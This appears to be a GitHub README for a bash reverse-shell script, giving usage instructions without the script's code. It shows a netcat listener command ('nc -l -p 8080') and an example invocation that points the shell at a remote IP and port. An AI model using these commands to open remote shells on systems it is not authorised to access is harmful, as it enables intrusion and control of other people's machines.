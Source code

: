 # bash_rev_shell
Simple reverse shell in bash

# Usage

First run listener on machine where you want to access revers shell.
for example:
```
nc -l -p 8080 -vvv
```

```
USAGE: ./rev_shell.sh [-a <ip_address_or_fqdn> -p <port_number>]

Example: ./rev_shell.sh -a 33.33.33.33 -p 31337

Options:
 -a ip addres or hostname
 -p port number
 -h print little help
 ```

